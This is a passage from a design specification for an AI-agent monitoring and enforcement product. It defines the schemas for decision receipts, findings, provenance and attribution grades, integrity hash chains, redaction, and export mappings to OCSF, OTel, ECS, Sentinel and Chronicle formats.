- The extractor returns `resolved`, `unresolved` or `malformed`, recorded in `resolution`. `unresolved` adds fact `exec.opaque` (D-10).
- `action_digest` is computed as D-31 and 12 define (SHA-256 over action class, canonical argv, working directory, environment delta, content hashes of referenced executables and scripts, resource identity) and is the join key between decision, grant and effect.

### 6. Facts and labels

**Fact**: `{key, value, origin, analyser, pack, subject, span}`.

- `key` is namespaced: `exec.opaque`, `path.class`, `host.class`, `cmd.class`, `secret.type`, `mcp.manifest.drift`, `tool.unmapped`. Third parties use `x.<owner>.<name>`.
- `value` is a typed `oneof`: bool, int64, enum string, or a set of strings. No floats.
- `origin` is `deterministic`, `heuristic` or `model` (P2). Each fact key has exactly one origin, declared with its analyser in the pack, so origin is known when a pack is validated: the validator (12) rejects a `permit` condition, an `unless` clause or a session rule that reads a key whose origin is not `deterministic`. A heuristic or model fact can therefore only restrict.
- `subject` is the event id and field path the fact describes; `span` is an optional byte range for evidence.

**Label**: `{label, kind, origin, scope, rule, state_seq, set_at, expires, cause_event_id}`.

- `kind` is `enforcing` (written synchronously by a deterministic session rule) or `advisory` (anything else; evaluates as absent in Cedar; D-09).
- `scope` is `session` or `session-lineage`; lineage scope inherits to child sessions and cannot be reset by the harness (D-25).
- `state_seq` is the session-state sequence number: a counter per session lineage, incremented on every label or counter change. A decision records the `state_seq` it read. `label_epoch` increments on each label escalation and voids outstanding grants (12).
- A label applied late (late OS telemetry, server origin) carries the time of its cause. The engine re-evaluates the receipts issued between that time and the label's arrival, and each one that would have changed raises the `label.late` finding (D-09; 12).
- Day-one labels are those in D-28. Label names are open strings validated against the pack that declares them.

### 7. Decision record and receipt

A **decision record** is written for every evaluation. It embeds the `Verdict` message that 12 defines and adds what the control point did with it. A **receipt** is that record signed. A default `ALLOW` is an `ALLOW` with no determining rule beyond the pack's base permit, no `would_be` verdict, no grant consumed, no obligation and no `degraded_reason`; it is stored as `decision.verdict` in the `local` lane and counted in roll-ups with its bundle digest. Every other decision gets a receipt: any other verdict, a Watch-mode `ALLOW` that carries `would_be`, an `ALLOW` that consumed a grant or carries obligations, and every decision taken without the engine after a timeout, whether by the floor policy or by the shim's fail-safe table (D-14, D-20). The shim holds no key: it spools a fail-safe decision and the daemon signs the receipt, with `evaluator: failsafe` and the shim's own time, when it is next reachable (07).

| Field | Content |
|---|---|
| `decision_id`, `action_id`, `action_class`, `action_digest` | What was judged |
| `control_point`, `engine`, `bundle_digest` | Who judged, with which bundle |
| `mode` | `Off`, `Watch`, `Ask`, `Block` in effect for the determining rule |
| `verdict`, `obligations[]` | The verdict policy chose, one of the five of D-07 |
| `executed_as`, `degraded_reason` | What the control point actually did (`allow`, `deny`, `deny-with-retry-token`, `hold`, `modify`, `observe-only`) and the row of 07's degradation table that changed it, if any |
| `would_be` | In `Watch`, the verdict that Ask or Block would have produced |
| `determining[]`, `not_evaluable[]` | Pack and version, rule id, Cedar policy id, effect, layer, locked flag; rule ids that could not be evaluated (D-60) |
| `session_state_seq`, `label_epoch`, `label_set_hash`, `labels_read[]`, `facts_read[]` | Exact replay inputs (D-09; 12 section 9) |
| `assurance` | Snapshot of the assurance record for this action class |
| `enforcement`, `spoofable_inputs` | `enforced` (a boundary or scoped boundary executed it), `requested` (a cooperative control point was asked) or `not-enforceable`; whether every input read was forgeable by same-user code (section 9) |
| `evaluator`, `failed` | Which path decided: `engine`, `floor` or `failsafe` (12). When it was not the engine, whether the outcome was `open` or `closed` |
| `blocked_by` | `grdr`, `agent-classifier`, `other-product` with its name (D-44) |
| `expectation` | For hook decisions: expectation id, tool call id, process key, action digest, expiry (D-13). OS effects carry `expectation_match` with 07's four values (`cross-checked`, `housekeeping`, `declared-service`, `undeclared`) and a `calibrated` flag that is false when the agent version has no housekeeping profile |
| `grant_id`, `approval_grade`, `retry_token_id` | Approval mechanics (07, 12, 18) |
| `cache` | Key, scope, expiry (D-05) |
| `reason_code`, `latency_us`, `deadline_ms` | Reason, which selects the person-facing language token (D-69); timing |

`Receipt { bytes decision; Signature sig; string boot_key_cert }`. The signature is Ed25519 by the per-boot software key over the exact `decision` bytes; verifiers never re-encode. `boot_key_cert` is signed by the device key, whose algorithm follows its key protection (ECDSA P-256 in a hardware keystore; brief 23). Receipts carry pseudonyms only and are retained 13 months by default (D-51).

### 8. Findings and incidents

**Finding.**

| Field | Content |
|---|---|
| `finding_id`, `revision` | Stable id; every change is a new `finding.state` event with `revision + 1` |
| `class` | `threat`, `policy-violation`, `overeager`, `tamper`, `coverage-gap` |
| `behaviour_severity` | `informational`, `low`, `medium`, `high`, `critical` |
| `content_sensitivity` | `none`, `internal`, `confidential`, `restricted`, taken from the highest `sensitive:<class>` or `secret-read` label involved |
| `state` | `new`, `in-progress`, `suppressed`, `resolved`, `archived` (OCSF 1.9 Detection Finding `status_id` 1 to 5) |
| `verdict` | `unknown`, `false-positive`, `true-positive`, `benign`, `test`, `duplicate`, `managed-externally` (OCSF `verdict_id`) |
| `rule` | Pack, rule id, version, status, origin, tier, tunable overrides in force |
| `outcome` | `blocked`, `allowed`, `held`, `unknown`. Blocked attempts always produce findings (D-54) |
| `session`, `actor_chain`, `attribution` | Copied from the triggering event; a finding on an `undetermined` actor says so |
| `evidence` | At most 32 event ids (the first and last 16 by event time) plus `evidence_root` and `evidence_count`; at most 8 entries of `EvidenceSpan[]`, each `{event_id, field_path, text, redactions[], digest}` (redacted arguments, the only place they travel at the default level); flight-recorder state (uploaded, available until, expired) |
| `observables[]` | Typed values for the observable index: `executable.sha256`, `destination.host`, `mcp.server.digest`, `mcp.tool.manifest`, `skill.digest`, `package`, `credential.id` (D-54), and for intelligence matching `extension.key`, `model.file.sha256`, `plugin.digest`, `mcp.remote.spki` (14 section 3) |
| `risk[]` | Named contributions to the bounded session risk integer |
| `tags[]` | `attack:<id>`, `atlas:<id>@<release>`; ATLAS tags always carry their release |
| `suppression_id`, `retro`, `pages`, `dedup_key`, `first_seen`, `last_seen`, `count` | `pages` is derived: true only for threat and tamper findings from a `stable` rule (13 section 2), and never for `rule.origin = model` until 19's owner question 5 is answered |

**Suppression.** `{suppression_id, revision, scope (rule id plus a match over observables, agent type, group or device), owner (role and pseudonym), justification, created, expires (required), state (active, expired, revoked)}`. A finding it matches moves to `suppressed` with `suppression_id` set and returns to its earlier state when the suppression expires. A suppression never changes policy and never stops the finding being recorded (D-54). Creating one is an `audit.admin` record; 18 owns the workflow.

**Incident.** `{incident_id, revision, state (new, in-progress, on-hold, resolved, closed), verdict, root_session_id, merge_keys[] (device, principal pseudonym, credential id, artefact digest), member_count {findings, sessions, devices}, member_root (RFC 6962 root over sorted member ids), added[], removed[] (at most 1,000 per revision; full membership lives in 20's `incident_member`), max ratings, tickets[], response_action_ids[], merged_into, window}`. Grouping is by session lineage first, then merge keys within a window (section 3 of the spine), and an artefact digest merges only while fewer than `artefact_merge_max_devices` (default 50, in `limits.toml`) of the organisation's devices carry it, above which findings group per organisation, artefact and rule; the window length is a tunable owned by 18. There is no case object; `tickets[]` is the sync point.

### 9. Provenance grade and attribution

Provenance grade says how the event itself was obtained. The daemon stamps it from the authenticated producer and the `channel`, using a fixed table in `grdr-model`; a producer cannot claim a grade. An embedding host's events carry the grade its host profile declares per class once that profile passes the conformance kit, and `reported` until then (D-60, R-17). The order is fixed and published, and it puts every source that same-user code can forge below every source it cannot, so a minimum of `reported` is the mechanical form of P3.

| Grade | Name | Meaning | Forgeable by same-user code |
|---|---|---|---|
| 0 | `derived` | Computed by an analyser or rule from other events. The record carries `source.input_floor`, the lowest grade among its inputs, and every minimum check uses that | As its floor |
| 1 | `claimed` | The harness said so: hook payload, native OTel, transcript, SDK | Yes |
| 2 | `observed-user` | Our sensor in user mode: user-mode ETW providers, procfs polling | Yes (h02) |
| 3 | `reported` | A third-party system of record through a connector: vendor compliance API, incumbent EDR, cloud audit log | No, but only as trustworthy as the vendor |
| 4 | `observed-kernel` | Kernel-origin telemetry: eBPF, kernel ETW providers, Endpoint Security notify events | No |
| 5 | `mediated` | The emitting control point was in the path of the action: MCP broker, proxy, gateway, launch sandbox, LSM hook, Network Extension filter, Endpoint Security auth event | No |

P3 is enforced in two places. At decision time, when every event and fact a non-default decision read has an effective grade below 3, the receipt sets `spoofable_inputs`. In a pack, a rule may declare `min_provenance`; on input below it the rule is reported in `not_evaluable` (D-60) and never passes silently.

Attribution says whose action it was. Document 06 owns how the evidence is gathered; this section fixes the vocabulary and the grade function.

| `attribution.evidence` value | Meaning |
|---|---|
| `os-principal` | Ran as a separate OS principal dedicated to the agent or session |
| `session-credential` | Used a credential minted for this session |
| `session-container` | Inside a container whose root process is session-exclusive |
| `exec-tag` | Carried an inherited tag read at exec (our session variable, `CLAUDE_CODE_SESSION_ID`, `CODEX_TOOL_CALL_ID`, `TRACEPARENT`) |
| `declared-matched` | A hook or telemetry claim matched an observation on tool-use id, command and working directory |
| `declared-only` | A claim with no matching observation |
| `lineage` | Descends from an agent-capable host that is not session-exclusive |
| `brokered` | Reached through a broker hop (container socket, SSH, scheduler, WMI, launchd) |
| `traffic` | Inferred from network behaviour |
| `timing` | Inferred from closeness in time to a tool call |
| `connector` | Reported by a vendor API |
| `human-entry` | Input entered by a person outside any agent session, observed at kernel level (06 section 9) |
| `system-principal` | Ran as an OS system principal, not on behalf of a session |
| `influenced` | File-mediated execution of an artefact an agent session wrote (D-25); restrict-only and never counts toward the grade |

The grade is the highest row whose condition holds. Uncorroborated sources do not add up: only a match raises a claim to grade 2.

| Grade | Rule over the evidence set |
|---|---|
| 4 | Contains `os-principal` or `session-credential` |
| 3 | Contains `session-container` or `exec-tag`; for a human or system actor, `human-entry` or `system-principal` (06 section 11) |
| 2 | Contains `declared-matched` |
| 1 | Contains any of `declared-only`, `lineage`, `brokered`, `connector` |
| 0 | Only `traffic` or `timing`, or empty |

`score` is an integer 0 to 100 for ranking only and is not `policy_readable`. `actor_kind` is `undetermined` whenever the grade is below the minimum the agent's catalogue entry declares for per-action attribution (D-25). Attribution decided after emission is a `session.link` event that supersedes; the original event is never edited.

### 10. Integrity fields

`Integrity { bytes prev; bytes digest; repeated ClassDigest class_digests; }` with `ClassDigest { class; digest; salt }`.

1. There are five commitment classes: identifier, structural, derived, content-argument and content-body. For each class `c` the event has, `d_c = SHA-256(salt_c || E_c)`. `E_c` is taken from the bytes the sensor first encoded, not from a re-encoding: walk the wire form depth-first and, for each leaf field of class `c`, emit its field-number path (with the index of each repeated element) and its value bytes, each length-prefixed, in wire order. The capture filter and reduction leave an emptied repeated element in place, so indexes never shift and `E_c` of the classes that remain is unchanged. The envelope fields that describe one copy (`integrity`, `capture_level`, `withheld`) are skipped. `salt_c` is 16 random bytes from the injected randomness.
2. `digest = SHA-256(d_identifier || d_structural || d_derived || d_argument || d_body)`, with a fixed zero block for a class the event never had.
3. `chain_n = SHA-256(chain_{n-1} || digest_n)` within one `(device, epoch, lane)`, and `prev` is `chain_{n-1}`. `chain_0` is SHA-256 over a domain tag, the device id, the epoch and the lane. The first batch head of an epoch also carries the final chain value of the previous epoch, so a missing epoch shows.
4. Each batch head carries the last chain value and is signed by the per-boot key, which the device key certifies (D-39). The `local` lane has no batches; `audit.checkpoint` signs its head.
5. A verifier partitions fields with the field registry published for the batch's `schema_rev`, so it needs no knowledge of fields added after it was built.
6. **Wire form.** On the wire, in the spool and in the archive an event omits what a verifier recomputes: the batch-scoped fields `organisation_id`, `device_id`, `epoch`, `lane` and `seq`, which rule 1 also skips because `chain_0` binds device, epoch and lane, chain position binds `seq` and the device credential binds the organisation (the receiver restores them from `BatchHead` and the event's index); `integrity.prev`; `integrity.digest`; and the `ClassDigest.digest` of every class whose fields and salt are present. Only the salts of present classes and the digests of withheld classes travel. `ingest`, the archive verifier and `grdr audit verify` recompute the omitted values and the chain and accept a batch only if the final chain equals the signed `BatchHead.chain`; the archive keeps the bytes as received. The `local` lane keeps the full form. The wire form, and salts derived from one seed per class and batch (an S-25 arm), are trust-core changes: each is adopted only after two independent evaluators on different models pass it (D-63).

Consequences:

- A copy that withholds a class carries that class's `d_c` and not its salt. The 16-byte salt makes `d_c` a hiding commitment, so a withheld command line cannot be guessed from its digest. Content sent later as evidence arrives with its salt and verifies against the original commitment.
- The server archives batches byte-exact (D-39). The one permitted later change is reduction: a retention pass removes the fields and salt of a class from an archived event, keeps `d_c`, and records the pass as `audit.admin`. A reduced event still verifies. Content parts are stored under the per-session content key, so erasing content is destroying that key; erasing a person is deleting the vault mapping, which leaves events with a pseudonym nobody can resolve (D-57; 20 implements both).

Roll-ups: the Merkle tree is RFC 6962 style (SHA-256, leaf prefix 0x00, node prefix 0x01) over the `digest` values of the elided `local`-lane events in sequence order. An evidence upload ships the elided events with inclusion proofs.

The local chain requires only the sensor; the checkpoint export requires the server's per-organisation checkpoint chain. `Integrity.checkpoint_ref`, `Integrity.inclusion_proof` and `Receipt.transparency` are reserved for the tile log, external witness and SCITT-style receipts of D-39, which require the checkpoint chain and an external witness.

### 11. Privacy classes and redaction

Data classes (D-06): `identifier` (our ids, pseudonyms, digests of public artefacts, destination hosts), `structural` (shape, counts, sizes, enums, timing), `derived` (facts, classes, labels, ratings), `content`. Content has a `content_kind`: `argument` (command lines, paths, URLs, MCP arguments) or `body` (prompts, model output, tool output, file text, diffs).

| Capture level | identifier | structural | derived | content, argument | content, body |
|---|---|---|---|---|---|
| `metadata` (default upload) | Yes, pseudonymous | Yes | Yes | No | No |
| `redacted arguments` | Yes | Yes | Yes | Redacted | No |
| `redacted content` | Yes | Yes | Yes | Redacted | Redacted |
| `full content` | Yes | Yes | Yes | As captured | As captured |

Redaction happens once, at capture, before the digests of section 10 are computed. At every level the committed form of an argument or body is the redacted string plus its `redactions` entries. At `full content` each entry also carries `original`, the bytes it replaced; `original` is outside the class digests and is bound to them by the entry's `value_digest`, and a reader reassembles the text as captured.

The filter is one function in `grdr-model`, generated from the field registry, applied on the device before every sink: upload, local feed, export, support bundle, review input. It removes whole classes and `original` values and never rewrites a string, which is why one commitment serves every level. The flight recorder stores at the organisation's capture level, which is `redacted arguments` unless the organisation changes it. The default upload level is `metadata`, and `redacted arguments` leaves the device only as an `EvidenceSpan` on a finding or under a content grant (D-51). Which detectors run, and whether a credential-shaped `original` is kept even at `full content`, is decided in 16.

`PathRef` is the pattern for argument-bearing targets: `path_class` (derived), `prefix_template` (structural: a root token such as `$HOME`, `$WORKSPACE`, `$TMP` plus at most two components, never a user name), `path_digest` (identifier, HMAC, for equality joins and the first-seen rule of D-52) and `path` (content, argument). URLs and command lines follow the same four-part shape. Every digest of a content value that travels at `metadata` (`path_digest`, `argv_digest`, the prompt digest) is an HMAC under the organisation key, never a bare hash, so it joins on equality and cannot be reversed by guessing without the key. `action_digest` is the exception, because 12 verifies grants against a plain SHA-256; Q3 covers it.

Redaction markers:

- A field removed by the capture level is absent and its class is listed in `envelope.withheld`, so a reader can tell "filtered" from "not present" (P9).
- A value replaced inside a string appears as `[[grdr:r:<n>]]`, where `n` indexes `envelope.redactions`, or the span's own `redactions` inside an `EvidenceSpan`. A literal `[[grdr:` in captured text is itself replaced, with reason `literal-marker`, so every marker a reader sees has an entry and captured text cannot forge one.
- `Redaction { field_path, reason (secret, personal-data, exclusion, size-limit, literal-marker), detector, kind, original_len, value_digest (HMAC), span, original }`. Entries are classed derived; `original` has the class of the field it came from.

Exclusions (D-51). Activity of an excluded principal, or inside an excluded path or repository, produces no events; a reference to an excluded path in another event's argument is redacted with reason `exclusion` and no `original`. The sensor counts what it skipped in `health.coverage` with reason `excluded` and no identifier of what was skipped, so an exclusion reads as "could not look" and not as "nothing happened" (P9).

Retention defaults (D-51) apply by class and lane: content 30 days, receipts 13 months, everything else 184 days (the EU AI Act's six-month floor for deployer logs; R-19). Document 20 applies them by the reduction of section 10.

Sealed fields. `Sealed { recipient_key_id, enc, ciphertext, inner_class }` exists in `grdr.common`, and fields marked `sealable` reserve a twin field number in 900 to 999. The sensor emits them only in the endpoint-sealed key mode of D-35, which serves a customer-managed-key deployment that requires the operator to be unable to read identity mappings or content.

Pack contract (P7): the field registry (`grdr-schema/fields.json`, generated) lists every field path with its class. A pack declares the paths it reads; the validator rejects undeclared reads, grouping by `principal`, and any read of a class above the pack's declared ceiling.

### 12. Fidelity and expected volumes

All figures are assumptions for a developer endpoint with heavy agent use (about 1,000 tool calls a day, two or three concurrent agents) until S-01 measures them. Inputs, none of them measured by us: brief 24 infers about 100,000 events a day (P95 250,000), of which 60,000 to 150,000 are OS events already aggregated on the endpoint and 10,000 to 20,000 are hook events; g10 assumes 1,000 tool calls and 5,000 shipped events at 600 bytes each; BeyondTrust documents "tens of thousands of events a day" per endpoint (vendor statement). The table uses g10's tool-call count, which is why its hook-derived rows are below brief 24's.

| Class group | Shipped per day, heavy endpoint | Raw bytes each | Note |
|---|---|---|---|
| `session.*` | 300 to 600 | 300 | About 20 sessions, 300 turns |
| `tool.call` | 2,000 | 350 | Two phases per call |
| Action intents and `mcp.*`, `cred.use`, `config.change`, `agent.spawn`, `elevate`, `data.flow` | 1,500 to 3,000 | 450 | |
| `action.llm.request` | 2,000 to 5,000 | 400 | Brief 24 |
| First-seen effects | 300 to 1,500 | 400 | |
| `action.rollup` | 500 to 1,000 | 600 | Replaces 60,000 to 150,000 effects |
| `process.start`, `process.exit` | 5,000 to 40,000 | 180 | Build-heavy days dominate; see objection 1 |
| `decision.*` shipped | 50 to 300 | 700 | |
| `finding.state` | 0 to 5 | 1,200 | |
| `inventory.*`, `hook.state`, `assurance.record`, `health.*`, `audit.*` | 300 to 600 | 300 | |
| **Total** | **about 12,000 to 55,000** | **about 4 to 13 MB raw** | Light user (50 tool calls): 1,000 to 3,000 |

The two design points of D-52 (5,000 and 100,000) bracket this range. Fleet sizing uses a mix until S-01 replaces it: 60% light (2,000), 30% medium (15,000) and 10% heavy (55,000) endpoints, a mean of 11,200 shipped events per endpoint-day (estimate), which at 10 million endpoints is about 1.3 million events a second on average and 5.2 million at the 4x peak (P15). Raw bytes count payload; section 10's wire form adds about 64 incompressible bytes per event (estimate, S-25). Tree edges travel inside `process.start` (06 section 6), not as separate `session.link` events. Each class group has a shipped budget per endpoint-day in `grdr-schema/volume-budget.toml`, which 22 section 7.3's volume gate reads. Local-lane volume is at least brief 24's 100,000 to 250,000, and higher where that brief's endpoint aggregation hid repeats; S-01 measures it.

### 13. Schema evolution rules and their checks

1. Field numbers and enum values are never reused or renumbered; removed ones are `reserved`.
2. Additive change is minor. A semantic change is a new field. A major version is a new package, and servers accept N and N-1.
3. Open enums carry 0 and 99 with a sibling string. Closed enums have no 99 and change only by RFC (D-61). This narrows brief 23's rule 3 on purpose: an unknown verdict, action class or provenance must never be read as a valid "other".
4. Unknown fields are preserved from sensor to archive. A sensor older than the server is always valid; the server ingests any sensor of the same wire major (D-58).
5. Every batch, feed file and export record declares `schema_rev` (a counter bumped by every merged change to these packages), and exports also declare the mapping version and target.
6. Mappings are data with their own version and golden tests.
7. Identifiers are opaque.
8. Integrity hashes are computed from the bytes as first encoded (section 10 derives the per-class inputs by walking them); nothing downstream re-encodes before verifying.
9. During `v1alpha1` a breaking change needs an RFC, regenerated golden vectors and a `schema_rev` bump. At the freeze before the server's first release the package is renamed `v1` and breaking changes are refused.

Rules 1 to 8 are brief 23's; rule 9 is ours.

| Check | Tool | Gate |
|---|---|---|
| Lint and naming | `buf lint`, `grdr-schema-lint` | `verify` |
| Wire compatibility | `buf breaking` against the last release tag (`WIRE_JSON` in alpha, `FILE` after freeze) | `verify` |
| Every field has `data_class`; content has `content_kind`; no float in `policy_readable` | `grdr-schema-lint` | `verify` |
| Field registry, Cedar schema, Sigma taxonomy and lake column manifest are regenerated and unchanged | Drift test | `verify` |
| Golden vectors decode and re-encode byte-identically in every binding, with unknown fields injected | `grdr-proto` test | `verify` |
| Canary strings (prompt, commit message, secret, personal path) never reach upload, feed, export or review input at the default level. Inside an `EvidenceSpan` the prompt and commit-message canaries may not appear at all and the secret and personal-path canaries must be redacted | Privacy canary test (l07 spike 1) | Release |
| Every class has exactly one lane per phase and fidelity or classification outcome, and one feed event id | `grdr-schema-lint` over the generated lane table | `verify` |
| Pack reads are declared and within class ceiling | Pack validator | Content CI |

Lake flattening (format owned by 20): column name is the field path joined by `_`; three physical tables per organisation, one per retention class (`decision` 13 months, `activity` 184 days, `content` 30 days), with each category of section 4 a view over them filtered by a `category` column (R-16); content columns live in the `content` table keyed by `event_id` under per-session keys (D-57). The column manifest is generated from the field registry.

### 14. Mappings

Mapping files live in `grdr-schema/mappings/<dialect>/<version>.yaml`, are interpreted by one mapper in the core (so the sensor, server and an embedding host convert identically) and declare `source_schema_rev`, `target` and `target_version`. OTLP export does not require the server, because the generic sinks and the L1 feed that use it work without one (D-54, D-41). The Claude Code native-event mapping is how that agent's always-shipped `llm.request` metadata is obtained on a device without the proxy (D-52).

**OCSF 1.9.0 (export).** Class uids below were checked by the author against the OCSF schema server on 2026-11-10; the briefs confirm 1001, 1007, 2004, 2006, 3003, 4001, 4002, 5001, 5020, 6003 and 7001 to 7004 (brief 23), and the golden test re-validates all of them.

| Our class | OCSF class (uid) | Profiles |
|---|---|---|
| `process.*`, `action.exec`, `action.elevate`, `action.agent.spawn` | Process Activity (1007) | `ai_operation`, `security_control`, `record_integrity` |
| `action.file.*`, `action.config.change` | File System Activity (1001); config changes also Device Config State Change (5019) | same |
| `action.net.connect` | Network Activity (4001) | same |
| `action.net.request` | HTTP Activity (4002) | same |
| `action.llm.request`, `action.mcp.call`, `tool.call` | API Activity (6003) | same |
| `action.mcp.connect`, `action.cred.use` | Authorize Session (3003) | same |
| `action.data.flow` | Data Security Finding (2006) when gated; otherwise API Activity | `data_classification` |
| `inventory.agent`, `.mcp_*`, `.skill`, `.plugin` | Software Inventory Info (5020) | `adr` |
| `inventory.device` | Device Inventory Info (5001) | |
| `finding.state` | Detection Finding (2004) | `security_control`, `record_integrity` |
| `incident.state` | Incident Finding (2005) | |
| `response.action` | Remediation Activity (7001 to 7004) | |
| `session.*`, `action.ui.act`, `action.rollup`, `hook.state`, `assurance.record`, `health.*` | `adr` extension classes | |

`decision.receipt` has no class of its own: its verdict is exported on the action's event through `security_control`, as in example 6. `audit.admin` and `audit.access` export as API Activity (6003). `expectation.*`, `audit.checkpoint`, `identity.mapping` and `content.blob` are not exported. OCSF 1.9.0 applies `ai_operation` to the system, network, application and IAM classes only (brief 23), so inventory records carry the agent in the `adr` profile and findings carry it in `evidences[].ai_agent`.

Field rules: `ai_agent.uid` is the agent instance id and `ai_agent.instance_uid` the session id (the verifier notes that `instance_uid` is a run id); `actor.user.uid` is the pseudonym; `metadata.uid` is `event_id`; `metadata.product` comes from the brand manifest (D-66); `attestation.chain_uid` is `device/epoch/lane`, with Ed25519 sent as algorithm Other because the enum has no EdDSA value (brief 23). Verdicts map to `action_id` and `disposition_id` (values checked by the author on the 1.9.0 schema server, not in the briefs): `ALLOW` 1 and 1; `DENY` 2 and 2; `MODIFY` 4 and 7; `STEP_UP` 2 and 23 (Challenge); `DEFER` 3 and 14 (Delayed); a Watch-mode would-be denial 3 and 17 (Logged).

**The `adr` extension** (agent detection and response) is small on purpose, because parsers only know standard classes. It adds one profile (`adr`) with objects `attribution` (evidence, grade, score, actor kind), `provenance`, `decision` (verdict, mode, executed-as, approval grade, grant id, session-state sequence, enforcement), `assurance`, `labels`, `rollup`, and `capability` and `status` as back-ports of the unreleased 1.10 `ai_capability` and `ai_status`; and four classes (Agent Session Activity, UI Automation Activity, Activity Roll-up, and Sensor Health, which also carries `hook.state` and `assurance.record`). When OCSF 1.10 releases, a new mapping version moves the back-ports to the native objects. The extension uid is provisional until registered upstream (work item).

**OCSF 1.3 down-conversion.** Every standard class in the table above is listed by the 1.3.0 schema server (checked 2026-11-10; the golden test re-validates), so class uids are kept. The converter removes `ai_operation`, `record_integrity` and `adr` attributes and writes them under `unmapped.adr.*`; extension classes fall back to API Activity (6003) with `activity_id` 99; an enum value that the 1.3 schema does not define becomes 99 (Other) with the 1.9 caption in its sibling string, the validator run being the oracle for which values those are; and it emits one class per Parquet object for Security Lake, whose custom sources accept only 1.3 classes (brief 26).

**OTel GenAI (ingest and export).** There is no release to pin, so the mapping file records a commit SHA of `semantic-conventions-genai`. Ingest: `invoke_agent` spans become `session.turn`, `execute_tool` becomes `tool.call`, `chat` becomes `action.llm.request`, MCP spans become `action.mcp.call`; `gen_ai.conversation.id` maps to `native_session_id`, `gen_ai.tool.call.id` to `native_tool_use_id`; Claude Code's `tool_decision`, `tool_result`, `api_request` and `mcp_server_connection` events map the same way. Everything ingested is `provenance: claimed`, `channel: native-otel`. Export is OTLP with `gen_ai.*` names at the same commit plus `grdr.*` attributes. The Agent 365 profile (four operation names, `gen_ai.agent.id` equal to the token's app id, 1 MB bodies) is a named export profile.

**OpenInference and OpenLLMetry (ingest).** OpenInference span kinds map: LLM to `action.llm.request`, TOOL to `tool.call`, AGENT and CHAIN to `session.turn`, GUARDRAIL to a fact `x.guardrail.verdict` declared with origin `model`, so it can only restrict. OpenLLMetry gets its own mapping file over the attributes of its `opentelemetry-semantic-conventions-ai` package; the briefs list its packages but not its attribute names, so that file is written from the pinned release in 04-23. Each mapping pins the dialect's released version, and everything ingested is `provenance: claimed`.

**ECS 9.5 (export).** `gen_ai.*` fields (beta, OTel names), `process.*`, `file.*`, `destination.*`, `event.kind`, `event.category`, `event.action` (our class name), `event.outcome`; everything else under `grdr.*`. No MCP fields exist in ECS (brief 23).

**Microsoft ASIM (export).** Sentinel has an Agent Event schema (`AgentEvent` 1.0.0, GA, page dated 2026-09-16). This and the UDM field list below were read by the author on 2026-11-10 and are in no research brief, so 04-24 re-reads both pages before the mapping is written. `session.*`, `tool.call`, `action.llm.request` and `action.mcp.call` map to it: `SrcAgentId` (instance), `SrcAgentName`, `EventSessionId`, `ToolId`, `ToolName`, `ModelName`, `ModelProviderName`, `InputTokensUsed`, `OutputTokensUsed`, `ActorUserId` (pseudonym), with the rest in `AdditionalFields`. OS-level classes map to `ProcessEvent`, `FileEvent`, `NetworkSession`, `WebSession`; `audit.admin` and decisions to `AuditEvent`; findings to `AlertEvent`. The package ships a DCR transform and `ASimAgentEvent<Vendor><Product>` parsers (25 owns the Sentinel solution).

**Google UDM (export, Chronicle API).** Event types: `PROCESS_LAUNCH`, `PROCESS_TERMINATION`, `FILE_READ`, `FILE_MODIFICATION`, `FILE_DELETION`, `NETWORK_CONNECTION`, `NETWORK_HTTP`, `SETTING_MODIFICATION`, `STATUS_HEARTBEAT`, and `GENERIC_EVENT` for session and tool events. `principal.ai` (`Ai` with `type` AGENT, `session_id`, `product_object_id`, `display_name`) carries the agent; `security_result.action` takes `ALLOW`, `BLOCK`, `ALLOW_WITH_MODIFICATION` (for `MODIFY`) and `CHALLENGE` (for `STEP_UP`); `DENY` maps to `BLOCK` and `DEFER` to `UNKNOWN_ACTION` with the verdict in `additional`, where the remainder also goes.

### 15. Local feed formats (embedding option L1)

One JSON profile, four carriers. The profile is ProtoJSON with our conventions: enums as `wire_name`, ids and digests as strings, RFC 3339 UTC timestamps with nanoseconds. The feed contains the `decision` and `spine` lanes by default, filtered to `metadata`; raising it, to at most the organisation's capture level, is a widening operation (D-31). `identity.mapping`, `content.blob` and `audit.access` are never written to a feed. Each carrier has a `feed_seq` and emits gap records.

| Carrier | Specification |
|---|---|
| JSON lines | `/var/log/grdr/feed/`, `/Library/Logs/Grdr/feed/`, `%ProgramData%\Grdr\feed\`. One event per line, UTF-8, LF, lines capped at 256 KiB (larger events are truncated with a `size-limit` redaction). First line of each file is a header (`schema_rev`, device id, feed version). Rotation at 64 MiB or daily, zstd on rotation, mode 0640 with a `grdr-feed` group. `--format ocsf-1.9` or `ocsf-1.3` writes the converted form. The only carrier available in the user install profile |
| Windows Event Log | A manifest-based ETW provider (working name `Grdr-Sensor`, final name and GUID from the brand manifest, D-66) with two Operational channels: `Grdr-Sensor/Operational` (decisions, findings, tamper, health; enabled) and `Grdr-Sensor/Activity` (spine; disabled until policy enables it). Each class has one event id, generated from the class enum and never renumbered, in blocks: 1000s session, 1100s tool, 1201 to 1215 the action classes in spine order, 1300 roll-up, 2000s decision, 3000s finding and incident, 4000s inventory, 5000s process, 6000s health, hook and assurance, 7000s response, 8000s audit. Each template has typed `EventData` for the envelope keys (so XPath filters and forwarding subscriptions work) and one `Payload` JSON string. An ETW event cannot exceed 64 KB less its header, so payloads over 48 KiB are truncated. Channel ACL allows writes from the service SID only; installed by the MSI, protected profile only |
| journald | Native protocol with `SYSLOG_IDENTIFIER=grdr`, a fixed `MESSAGE_ID` per class (128-bit lower-case hex, with a catalogue file), `PRIORITY` from severity, and fields `GRDR_CLASS`, `GRDR_EVENT_ID`, `GRDR_SESSION`, `GRDR_AGENT`, `GRDR_ACTION`, `GRDR_VERDICT`, `GRDR_RULE`, `GRDR_JSON`. Consumers authenticate the writer with the trusted field `_SYSTEMD_UNIT`, which client code cannot set |
| macOS unified log | Subsystem from the brand manifest (working `dev.grdr.sensor`), categories `decision`, `finding`, `activity`, `health`. The message is the summary record only (envelope keys, class, verdict, rule, a reference to the JSON-lines record), logged as public because only metadata-class values are written. Message size limits are unverified; SP-4 measures them |

OTLP logs to a local collector is the fifth L1 route listed in D-41 and reuses the OTel export mapping of section 14.

### 16. Agent bill of materials export

No standard covers agents, MCP servers or skills (CycloneDX 1.7.2 closed its agent BOM proposals and, by the author's count, has 13 component types, none agent-related; SPDX 3.1 is still a release candidate; brief 23). The source of truth is `grdr.inventory.v1alpha1.AgentBom`: scope (device, organisation or repository), generation time, and components with ids, digests, versions, provenance grade of the observation, declared-versus-observed state and edges. It is exported three ways:

1. **Native JSON**, signed as an in-toto v1 statement whose predicate type URI is fixed with the namespace (D-66).
